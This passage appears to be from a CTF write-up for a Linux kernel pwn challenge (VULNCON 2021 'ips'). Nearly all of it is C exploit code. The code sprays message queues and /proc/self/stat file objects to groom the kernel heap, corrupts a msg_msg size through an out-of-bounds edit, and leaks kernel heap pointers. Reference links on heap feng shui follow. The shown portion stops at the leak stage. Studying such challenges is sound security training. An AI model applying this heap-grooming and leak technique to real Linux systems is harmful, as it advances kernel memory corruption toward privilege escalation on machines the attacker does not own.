 ```c
    
    int msgid3      = msgQueueCreate("/home/user/3");
    // We are builing the following pat
    // we may fail if msgid2.chunmk1's address is smaller
    // msg1
    //      ....
    // msg2 -> msg3
    // (msg3 includes a pointer points KHeap32)
    size_t ct = 1;
    msgQueueSend(msgid1,ctx,0x50,ct++);

     
    // Spray 4 elements to improve the possibility that
    // we have at least one object after mesg1
    // The success rate ~= 80% 
    // We have 5 elements and we can leak as long as msgid1 is not the last one
    // We can improve it with performing it x times but 0.8 is good enough for me
    int msgid2 = 0;
    for(int i =0 ; i < 0x5 ; i++){
        msgid2 = msgQueueCreate(strcat(strdup("/home/user/"),str(i+0x61)));
        msgQueueSend(msgid2,dp('\x99',8),0x50,ct++); //Mark it with '\x99'*8
        msgQueueSend(msgid2,ctx,0xfd0+0x18,ct++);
    }
    // Spray Kheap 32 with fops2:
    // Try not to use all the slot since we want to
    // 1. Arbitrary free one of fops
    // 2. Refill it
    int fds[0x40] = {0};
    for(int i = 0 ; i<0x40;i++){
        fds[i] = open("/proc/self/stat",0);
    }

    edit(-1,strcat(realloc(dp('\xff',2+8),0x80),p64(0xfff)));
    msgQueueMsg * res  = msgQueueRecv(msgid1, 0xfff, 0);

    // *Avoid put other code before refilling to make it more stable
    msgQueueSend(msgid3,"Refill",0x50,ct++);


    size_t off = findp64(res->mtext,0x9999999999999999,0xfff);

    if(off==NULL)
        panic("[-] Not able to leak msgid2");
    
    off-= 0x30;
    size_t leaked_1 = *(size_t *)(&res->mtext[off]);
    info(leaked_1);
    
    

    edit(-1,strcat(realloc(dp('\xff',2+8+8),0x80),p64(leaked_1-0x10)));


    // Prepare for quick refilling
    msgQueueDel(msgid1);
    msgid1 = msgQueueCreate("/home/user/2");
    // Leak target 
    res  = msgQueueRecv(msgid3, 0xfd0+0x10+0x30, 0);
    // * again, quickly refill 0x80
    msgQueueSend(msgid1,"Refill2",0x50,ct++);
    size_t leaked_heap32 = *(size_t *)(&res->mtext[0xfd0+0x8+0x20]);
    // Leak KHeap 32
    info(leaked_heap32);
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips